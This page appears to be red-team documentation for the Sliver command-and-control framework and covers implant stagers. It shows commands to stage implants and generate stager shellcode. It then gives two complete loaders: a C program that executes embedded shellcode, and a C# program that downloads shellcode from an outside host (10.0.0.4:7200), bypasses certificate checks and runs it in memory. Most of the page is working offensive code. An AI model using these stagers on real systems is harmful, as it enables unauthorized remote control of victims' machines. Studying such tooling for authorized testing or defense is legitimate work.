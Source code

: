 # Stagers

When using Sliver during a live engagement, you’re going to need to use custom stagers, which are essentially a first binary or commandline that will retrieve and/or load Sliver into memory on your target system. Sliver can generate shellcode for your stager to execute by using the `profiles` command.

For this exercise we will create a new beacon profile and prepare to stage it.

```asciinema
{"src": "/asciinema/create_profile.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```

If you look at the generated implant, you'll notice the `ID` field has been populated. When downloading your payload from the staging server your URL needs to be in the form of:
```
https://sliver-ip/whatever.stager_file_ext?x=yourID
```

There is a lot of flexibility in the form of this URL, the conditions for successfull staging are:
* The file extension needs to match the c2 profile's stager_file_ext
* There has to be a one character http url parameter
* The digits found in the ID need to match an implant ID, if your implant ID is 1234, abcd1234, 12beu34 are all valid values

To expose a payload externally you need to use the `implants stage` command and specifically select the implant to be exposed.

```asciinema
{"src": "/asciinema/stage_implant.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```

At this point we can try retrieving our implant, the ID is 19778.

```asciinema
{"src": "/asciinema/implant_curl.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```



## Metasploit

You can generate msfvenom shellcode to connect back to our stage listener and retrieve the second stage payload, however you’ll need to include the `--prepend-size` argument to the stage listener as Metasploit payloads require the length to be prepended to the stage. You can either kill the previous stage listener using the `jobs -k` command or run the stage listener on a different port:

```html
[server] sliver > stage-listener --url http://**%%LINUX_IPADDRESS%%**:7202 --profile profile1 --prepend-size

[*] Sliver name for profile: IDEAL_THRONE
[*] Job 2 (http) started
```

Once you have the stage listener setup with prepend size, you can generate the stager shellcode:

```bash
[server] sliver > generate stager --lhost **%%LINUX_IPADDRESS%%** --lport 7202 --protocol http --save /tmp --format c

[*] Sliver implant stager saved to: /tmp/HOLLOW_CHINO
```

Create a new file on the Linux box with the following contents and replace the `%%STAGE_SHELLCODE%%` field with the shellcode previously created:

```bash
#include "windows.h"

int main()
{
        unsigned char buf[] = **%%STAGE_SHELLCODE%%** ;
    void *exec = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, buf, sizeof buf);
    ((void(*)())exec)();

    return 0;
}
```

Finally compile the payload.

```bash
x86_64-w64-mingw32-gcc -o stage.exe stager.c
```

Once the executable is copied over to a windows host and run you should see a session connect back to your host.

## Custom stager

You can also use a custom stager that just retrieves sliver shellcode directly and loads it in memory similarly to the previous stager.

```bash
using System;
using System.Net.Http;
using System.Runtime.InteropServices;
using System.Threading.Tasks;

namespace ConsoleApp1
{
    internal class Program
    {
        [DllImport("kernel32.dll")]
        public static extern IntPtr VirtualAlloc(
           IntPtr lpAddress,
           uint dwSize,
           AllocationType flAllocationType,
           MemoryProtection flProtect);

        [DllImport("kernel32.dll")]
        public static extern IntPtr CreateThread(
            IntPtr lpThreadAttributes,
            uint dwStackSize,
            IntPtr lpStartAddress,
            IntPtr lpParameter,
            uint dwCreationFlags,
            out IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        public static extern bool VirtualProtect(
            IntPtr lpAddress,
            uint dwSize,
            MemoryProtection flNewProtect,
            out MemoryProtection lpflOldProtect);

        [DllImport("kernel32.dll")]
        public static extern uint WaitForSingleObject(
            IntPtr hHandle,
            uint dwMilliseconds);

        [Flags]
        public enum AllocationType
        {
            Commit = 0x1000,
            Reserve = 0x2000,
            Decommit = 0x4000,
            Release = 0x8000,
            Reset = 0x80000,
            Physical = 0x400000,
            TopDown = 0x100000,
            WriteWatch = 0x200000,
            LargePages = 0x20000000
        }

        [Flags]
        public enum MemoryProtection
        {
            Execute = 0x10,
            ExecuteRead = 0x20,
            ExecuteReadWrite = 0x40,
            ExecuteWriteCopy = 0x80,
            NoAccess = 0x01,
            ReadOnly = 0x02,
            ReadWrite = 0x04,
            WriteCopy = 0x08,
            GuardModifierflag = 0x100,
            NoCacheModifierflag = 0x200,
            WriteCombineModifierflag = 0x400
        }

    static async Task Main(string[] args)
        {

            byte[] shellcode;

            using (var handler = new HttpClientHandler())
            {
                // ignore ssl, because self-signed
                handler.ServerCertificateCustomValidationCallback = (message, cert, chain, sslPolicyErrors) => true;

                using (var client = new HttpClient(handler))
                {
                    // Download the shellcode
                    shellcode = await client.GetByteArrayAsync("http://10.0.0.4:7200/whatever.woff");
                }
            }

            // Allocate a region of memory in this process as RW
            var baseAddress = VirtualAlloc(
                IntPtr.Zero,
                (uint)shellcode.Length,
                AllocationType.Commit | AllocationType.Reserve,
                MemoryProtection.ReadWrite);

            // Copy the shellcode into the memory region
            Marshal.Copy(shellcode, 0, baseAddress, shellcode.Length);

            // Change memory region to RX
            VirtualProtect(
                baseAddress,
                (uint)shellcode.Length,
                MemoryProtection.ExecuteRead,
                out _);

            // Execute shellcode
            var hThread = CreateThread(
                IntPtr.Zero,
                0,
                baseAddress,
                IntPtr.Zero,
                0,
                out _);
            // Wait infinitely on this thread to stop the process exiting
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```

## References

- [https://github.com/BishopFox/sliver/wiki/Stagers](https://github.com/BishopFox/sliver/wiki/Stagers)

